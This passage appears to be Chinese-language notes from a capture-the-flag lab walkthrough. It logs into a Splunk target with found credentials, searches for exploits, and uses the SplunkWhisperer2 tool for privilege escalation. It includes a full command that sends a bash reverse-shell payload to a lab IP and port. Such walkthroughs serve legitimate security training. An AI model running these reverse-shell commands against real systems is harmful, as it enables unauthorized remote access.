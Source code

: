 



### (3.云一下

#### 1).原因

```c
教程上面靶机开放了8089端口,但是实际上现在并没有开放,因此要做一个记录
```

```c
输入  shaun/Guitar123
```

![Screenshot_20240418_182142](./图/Screenshot_20240418_182142.png)

```c
登录进去之后,解锁了大部分的文件访问权限
    然后访问8.0.5
```

![Screenshot_20240418_215409](./图/Screenshot_20240418_215409.png)

![Screenshot_20240418_215454](./图/Screenshot_20240418_215454.png)

### (4.searchsploit_不云了

```c
"searchsploit splunk"
    没东西,然后咱们去谷歌
```

![Screenshot_20240418_215701](./图/Screenshot_20240418_215701.png)







### (5.splunk提权

```c
git clone https://github.com/cnotin/SplunkWhisperer2.git
```

![Screenshot_20240418_212347](./图/Screenshot_20240418_212347.png)



```c
python3 PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.30 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.30/9002 0>&1'"
```

![Screenshot_20240418_212958](./图/Screenshot_20240418_212958.png)

#### 1).flag.txt
